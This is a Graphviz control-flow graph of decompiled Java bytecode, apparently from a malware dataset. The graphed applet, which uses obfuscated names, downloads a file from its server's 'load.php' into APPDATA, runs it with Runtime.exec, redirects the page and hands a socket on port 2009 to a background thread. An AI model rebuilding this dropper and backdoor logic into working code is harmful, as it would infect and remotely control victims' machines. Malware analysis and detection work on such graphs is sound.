digraph "" {
    "r0 := @this: JavaSun"
    "new java.net.Socket"
    "r0 := @this: JavaSun"->"new java.net.Socket";
    "dup1.r"
    "new java.net.Socket"->"dup1.r";
    "store.r r4"
    "dup1.r"->"store.r r4";
    "goto staticinvoke <java.lang.System: long currentTimeMillis()>"
    "store.r r4"->"goto staticinvoke <java.lang.System: long currentTimeMillis()>";
    "staticinvoke <java.lang.System: long currentTimeMillis()>"
    "goto staticinvoke <java.lang.System: long currentTimeMillis()>"->"staticinvoke <java.lang.System: long currentTimeMillis()>";
    "store.l l4"
    "staticinvoke <java.lang.System: long currentTimeMillis()>"->"store.l l4";
    "staticget <WNKDQXsaCL: boolean tRfsINbEFN>"
    "store.l l4"->"staticget <WNKDQXsaCL: boolean tRfsINbEFN>";
    "ifeq staticget <WNKDQXsaCL: boolean JpaTLmZWdD>"
    "staticget <WNKDQXsaCL: boolean tRfsINbEFN>"->"ifeq staticget <WNKDQXsaCL: boolean JpaTLmZWdD>";
    "ifeq staticget <WNKDQXsaCL: boolean JpaTLmZWdD>"->"staticget <WNKDQXsaCL: boolean tRfsINbEFN>";
    "push 1"
    "staticget <WNKDQXsaCL: boolean tRfsINbEFN>"->"push 1";
    "ifcmpne.b return"
    "push 1"->"ifcmpne.b return";
    "staticget <WNKDQXsaCL: boolean JpaTLmZWdD>"
    "ifcmpne.b return"->"staticget <WNKDQXsaCL: boolean JpaTLmZWdD>";
    "staticget <WNKDQXsaCL: boolean JpaTLmZWdD>"->"push 1";
    "ifcmpne.b staticinvoke <java.lang.System: long currentTimeMillis()>"
    "push 1"->"ifcmpne.b staticinvoke <java.lang.System: long currentTimeMillis()>";
    "push \"APPDATA\""
    "ifcmpne.b staticinvoke <java.lang.System: long currentTimeMillis()>"->"push \"APPDATA\"";
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"
    "push \"APPDATA\""->"staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>";
    "staticinvoke <JavaSun: java.lang.String dwuJbIjNpA()>"
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"->"staticinvoke <JavaSun: java.lang.String dwuJbIjNpA()>";
    "staticput <JavaSun: java.lang.String teASmfcMSI>"
    "staticinvoke <JavaSun: java.lang.String dwuJbIjNpA()>"->"staticput <JavaSun: java.lang.String teASmfcMSI>";
    "new java.net.URL"
    "staticput <JavaSun: java.lang.String teASmfcMSI>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "new java.lang.StringBuilder"
    "dup1.r"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "load.r r0"
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "virtualinvoke <JavaSun: java.net.URL getCodeBase()>"
    "load.r r0"->"virtualinvoke <JavaSun: java.net.URL getCodeBase()>";
    "virtualinvoke <java.net.URL: java.lang.String toString()>"
    "virtualinvoke <JavaSun: java.net.URL getCodeBase()>"->"virtualinvoke <java.net.URL: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <java.net.URL: java.lang.String toString()>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"load.php\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"load.php\"";
    "push \"load.php\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>";
    "store.r r3"
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"->"store.r r3";
    "staticget <JavaSun: java.lang.String teASmfcMSI>"
    "store.r r3"->"staticget <JavaSun: java.lang.String teASmfcMSI>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"
    "staticget <JavaSun: java.lang.String teASmfcMSI>"->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r4";
    "load.r r3"
    "store.r r4"->"load.r r3";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"
    "load.r r3"->"virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"->"store.r r3";
    "new java.io.FileOutputStream"
    "store.r r3"->"new java.io.FileOutputStream";
    "store.r $r22"
    "new java.io.FileOutputStream"->"store.r $r22";
    "load.r $r22"
    "store.r $r22"->"load.r $r22";
    "load.r r4"
    "load.r $r22"->"load.r r4";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "load.r r4"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "push 1024"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"push 1024";
    "newarray"
    "push 1024"->"newarray";
    "store.r r7"
    "newarray"->"store.r r7";
    "store.r r7"->"load.r r3";
    "load.r r7"
    "load.r r3"->"load.r r7";
    "virtualinvoke <java.io.InputStream: int read(byte[])>"
    "load.r r7"->"virtualinvoke <java.io.InputStream: int read(byte[])>";
    "store.i i5"
    "virtualinvoke <java.io.InputStream: int read(byte[])>"->"store.i i5";
    "store.i i5"->"staticget <WNKDQXsaCL: boolean JpaTLmZWdD>";
    "staticget <WNKDQXsaCL: boolean JpaTLmZWdD>"->"push 1";
    "ifcmpne.b load.r r3"
    "push 1"->"ifcmpne.b load.r r3";
    "load.i i5"
    "ifcmpne.b load.r r3"->"load.i i5";
    "ifle load.r r3"
    "load.i i5"->"ifle load.r r3";
    "ifle load.r r3"->"load.r $r22";
    "load.r $r22"->"load.r r7";
    "push 0"
    "load.r r7"->"push 0";
    "push 0"->"load.i i5";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"
    "load.i i5"->"virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"load.r r3";
    "load.r r3"->"load.r r7";
    "load.r r7"->"virtualinvoke <java.io.InputStream: int read(byte[])>";
    "virtualinvoke <java.io.InputStream: int read(byte[])>"->"store.i i5";
    "goto load.i i5"
    "store.i i5"->"goto load.i i5";
    "store.r r0"
    "virtualinvoke <java.io.InputStream: int read(byte[])>"->"store.r r0";
    "goto return"
    "store.r r0"->"goto return";
    "return"
    "goto return"->"return";
    "ifle load.r r3"->"load.r r3";
    "virtualinvoke <java.io.InputStream: void close()>"
    "load.r r3"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"load.r $r22";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r $r22"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"load.r r4";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "load.r r4"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "pop"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "pop"->"load.r r0";
    "virtualinvoke <JavaSun: java.applet.AppletContext getAppletContext()>"
    "load.r r0"->"virtualinvoke <JavaSun: java.applet.AppletContext getAppletContext()>";
    "virtualinvoke <JavaSun: java.applet.AppletContext getAppletContext()>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "push \"http://www.pokertube.com\""
    "dup1.r"->"push \"http://www.pokertube.com\"";
    "push \"http://www.pokertube.com\""->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "push \"_self\""
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"push \"_self\"";
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL,java.lang.String)> 2"
    "push \"_self\""->"interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL,java.lang.String)> 2";
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL,java.lang.String)> 2"->"goto return";
    "ifcmpne.b staticinvoke <java.lang.System: long currentTimeMillis()>"->"staticinvoke <java.lang.System: long currentTimeMillis()>";
    "load.l l4"
    "staticinvoke <java.lang.System: long currentTimeMillis()>"->"load.l l4";
    "sub.l"
    "load.l l4"->"sub.l";
    "push 1000L"
    "sub.l"->"push 1000L";
    "div.l"
    "push 1000L"->"div.l";
    "push 10L"
    "div.l"->"push 10L";
    "cmp.l"
    "push 10L"->"cmp.l";
    "ifne staticget <WNKDQXsaCL: boolean tRfsINbEFN>"
    "cmp.l"->"ifne staticget <WNKDQXsaCL: boolean tRfsINbEFN>";
    "ifne staticget <WNKDQXsaCL: boolean tRfsINbEFN>"->"push 1";
    "staticinvoke <java.lang.System: void exit(int)>"
    "push 1"->"staticinvoke <java.lang.System: void exit(int)>";
    "goto staticget <WNKDQXsaCL: boolean tRfsINbEFN>"
    "staticinvoke <java.lang.System: void exit(int)>"->"goto staticget <WNKDQXsaCL: boolean tRfsINbEFN>";
    "dup1.r"->"store.r r4";
    "staticinvoke <JavaSun: java.lang.String BdMMuwgRlD()>"
    "dup1.r"->"staticinvoke <JavaSun: java.lang.String BdMMuwgRlD()>";
    "push 2009"
    "staticinvoke <JavaSun: java.lang.String BdMMuwgRlD()>"->"push 2009";
    "specialinvoke <java.net.Socket: void <init>(java.lang.String,int)>"
    "push 2009"->"specialinvoke <java.net.Socket: void <init>(java.lang.String,int)>";
    "staticput <JavaSun: java.net.Socket ivFdSAQcQY>"
    "specialinvoke <java.net.Socket: void <init>(java.lang.String,int)>"->"staticput <JavaSun: java.net.Socket ivFdSAQcQY>";
    "new java.lang.Thread"
    "staticput <JavaSun: java.net.Socket ivFdSAQcQY>"->"new java.lang.Thread";
    "new java.lang.Thread"->"dup1.r";
    "new WNKDQXsaCL"
    "dup1.r"->"new WNKDQXsaCL";
    "new WNKDQXsaCL"->"dup1.r";
    "staticget <JavaSun: java.net.Socket ivFdSAQcQY>"
    "dup1.r"->"staticget <JavaSun: java.net.Socket ivFdSAQcQY>";
    "specialinvoke <WNKDQXsaCL: void <init>(java.net.Socket)>"
    "staticget <JavaSun: java.net.Socket ivFdSAQcQY>"->"specialinvoke <WNKDQXsaCL: void <init>(java.net.Socket)>";
    "specialinvoke <java.lang.Thread: void <init>(java.lang.Runnable)>"
    "specialinvoke <WNKDQXsaCL: void <init>(java.net.Socket)>"->"specialinvoke <java.lang.Thread: void <init>(java.lang.Runnable)>";
    "staticput <JavaSun: java.lang.Thread EbBqKEFUwp>"
    "specialinvoke <java.lang.Thread: void <init>(java.lang.Runnable)>"->"staticput <JavaSun: java.lang.Thread EbBqKEFUwp>";
    "staticget <JavaSun: java.lang.Thread EbBqKEFUwp>"
    "staticput <JavaSun: java.lang.Thread EbBqKEFUwp>"->"staticget <JavaSun: java.lang.Thread EbBqKEFUwp>";
    "virtualinvoke <java.lang.Thread: void start()>"
    "staticget <JavaSun: java.lang.Thread EbBqKEFUwp>"->"virtualinvoke <java.lang.Thread: void start()>";
    "virtualinvoke <java.lang.Thread: void start()>"->"goto staticinvoke <java.lang.System: long currentTimeMillis()>";
}
